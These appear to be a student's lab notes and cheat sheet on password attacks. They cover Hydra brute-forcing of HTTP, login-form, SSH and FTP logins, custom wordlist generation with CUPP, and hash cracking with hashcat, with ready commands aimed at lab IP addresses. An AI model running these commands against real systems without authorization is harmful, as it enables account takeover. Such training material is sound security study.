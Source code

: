 Login Attacks
======

Hydra
------
To install Hydra use command `apt install hydra -y` or download from its Github Repository `git clone https://github.com/vanhauser-thc/thc-hydra`

*password wordlists /opt/useful/SecLists/Passwords/

*username wordlists /opt/useful/SecLists/Usernames/

*https://github.com/danielmiessler/SecLists
The most commonly used password wordlists is rockyou.txt, which has over 14 million unique passwords, sorted by how common they are. https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
/opt/useful/SecLists/Passwords/Default-Credentials
 ftp-betterdefaultpasslist.txt

Options	Description
-C ftp-betterdefaultpasslist.txt	Combined Credentials Wordlist
SERVER_IP	Target IP
-s PORT	Target Port
http-get	Request Method
/	Target Path

------Basic HTTP Auth Brute Forcing------
hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 46.101.20.243 -s 32221 http-get /


locate names.txt

hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f 178.35.49.134 -s 32901 http-get /

static pw
hydra -L /opt/useful/SecLists/Usernames/Names/usernames.txt -p amormio -u -f 178.35.49.134 -s 32901 http-get /

 hydra -h | grep "Supported services" | tr ":" "\n" | tr " " "\n" | column -e

---Brute Forcing Forms----

Determine Login Parameters
We can easily find POST parameters if we intercept the login request with Burp Suite or take a closer look at the admin panel's source code.

Using Browser
One of the easiest ways to capture a form's parameters is through using a browser's built in developer tools. For example, we can open firefox within PwnBox, and then bring up the Network Tools with [CTRL + SHIFT + E].

Once we do, we can simply try to login with any credentials (test:test) to run the form, after which the Network Tools would show the sent HTTP requests. Once we have the request, we can simply right-click on one of them, and select Copy > Copy POST data:

Another option would be to used Copy > Copy as cURL, which would copy the entire cURL command, which we can use in the Terminal to repeat the same HTTP request:


curl 'http://178.128.40.63:31554/login.php' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://178.128.40.63:31554' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Referer: http://178.128.40.63:31554/login.php' -H 'Cookie: PHPSESSID=8iafr4t6c3s2nhkaj63df43v05' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' --data-raw 'username=test&password=test'


hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"

hydra -l user -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -f 46.101.20.243 -s 32221 http-post-form "/admin_login.php:username=^USER^&password=^PASS^:F=<form name='login'"

curl 'http://46.101.20.243:32221/admin_login.php' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://46.101.20.243:32221' -H 'DNT: 1' -H 'Authorization: Basic dXNlcjpwYXNzd29yZA==' -H 'Connection: keep-alive' -H 'Referer: http://46.101.20.243:32221/admin_login.php' -H 'Cookie: PHPSESSID=hd495gtp1gu278ifim02kahvom' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' --data-raw 'user=&pass='
Have to find verriables of USERNAME/PASSWORD , form name, ip and port, login page. 


SSH Attack
hydra -L bill.txt -P william.txt -u -f ssh://178.35.49.134:22 -t 4
netstat -antp | grep -i list
hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1
ftp 127.0.0.1


CUPP
sudo apt install cupp or clone it from the Github repository
https://github.com/Mebus/cupp
cupp -i
sed -ri '/^.{,7}$/d' william.txt            # remove shorter than 8
sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt # remove no special chars
sed -ri '/[0-9]+/!d' william.txt            # remove no numbers


Custom Username Wordlist
git clone https://github.com/21y4d/usernameGenerator.git
bash usernameGenerator/usernameGenerator.sh 
bash usernameGenerator/usernameGenerator.sh Bill Gates

Hydra
Command	Description
hydra -h	hydra help
hydra -C wordlist.txt SERVER_IP -s PORT http-get /	Basic Auth Brute Force - Combined Wordlist
hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /	Basic Auth Brute Force - User/Pass Wordlists
hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"	Login Form Brute Force - Static User, Pass Wordlist
hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4	SSH Brute Force - User/Pass Wordlists
hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1	FTP Brute Force - Static User, Pass Wordlist
Wordlists
Command	Description
/opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt	Default Passwords Wordlist
/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt	Common Passwords Wordlist
/opt/useful/SecLists/Usernames/Names/names.txt	Common Names Wordlist
Misc
Command	Description
cupp -i	Creating Custom Password Wordlist
sed -ri '/^.{,7}$/d' william.txt	Remove Passwords Shorter Than 8
sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt	Remove Passwords With No Special Chars
sed -ri '/[0-9]+/!d' william.txt	Remove Passwords With No Numbers
git clone https://github.com/21y4d/usernameGenerator.git	Download usernameGenerator
bash usernameGenerator/usernameGenerator.sh <First Name> <Last Name>	usernameGenerator Usage
ssh b.gates@SERVER_IP -p PORT	SSH to Server
ftp 127.0.0.1	FTP to Server
su - user	Switch to User

Encryption

Generate an MD5 hash
echo -n "p@ssw0rd" | md5sum

Create the XOR ciphertext
python3
from pwn import xor 
xor("p@ssw0rd", "secret")

 pip install hashid	Install the hashid tool
sudo apt install hashcat or get from Git https://github.com/hashcat/hashcat

hashid '$DCC2$10240#tom#e4e938d12fe5974dc42a90120bd9c90f' -m

 hash types and their corresponding examples can be found here
https://hashcat.net/wiki/doku.php?id=example_hashes


CRACKING PASSWORDS WITH HASHCAT
cheat sheet
Command	Description
 pip install hashid	Install the hashid tool
hashid <hash> OR hashid <hashes.txt>	Identify a hash with the hashid tool
hashcat --example-hashes	View a list of Hashcat hash modes and example hashes
hashcat -b -m <hash mode>	Perform a Hashcat benchmark test of a specific hash mode
hashcat -b	Perform a benchmark of all hash modes
hashcat -O	Optimization: Increase speed but limit potential password length
hashcat -w 3	Optimization: Use when Hashcat is the only thing running, use 1 if running hashcat on your desktop. Default is 2
hashcat -a 0 -m <hash type> <hash file> <wordlist>	Dictionary attack
hashcat -a 1 -m <hash type> <hash file> <wordlist1> <wordlist2>	Combination attack
hashcat -a 3 -m 0 <hash file> -1 01 'ILFREIGHT?l?l?l?l?l20?1?d'	Sample Mask attack
hashcat -a 7 -m 0 <hash file> -1=01 '20?1?d' rockyou.txt	Sample Hybrid attack
crunch <minimum length> <maximum length> <charset> -t <pattern> -o <output file>	Make a wordlist with Crunch
python3 cupp.py -i	Use CUPP interactive mode
kwp -s 1 basechars/full.base keymaps/en-us.keymap routes/2-to-10-max-3-direction-changes.route	Kwprocessor example
cewl -d <depth to spider> -m <minimum word length> -w <output wordlist> <url of website>	Sample CeWL command
hashcat -a 0 -m 100 hash rockyou.txt -r rule.txt	Sample Hashcat rule syntax
./cap2hccapx.bin input.cap output.hccapx	cap2hccapx syntax
hcxpcaptool -z pmkidhash_corp cracking_pmkid.cap	hcxpcaptoolsyntax
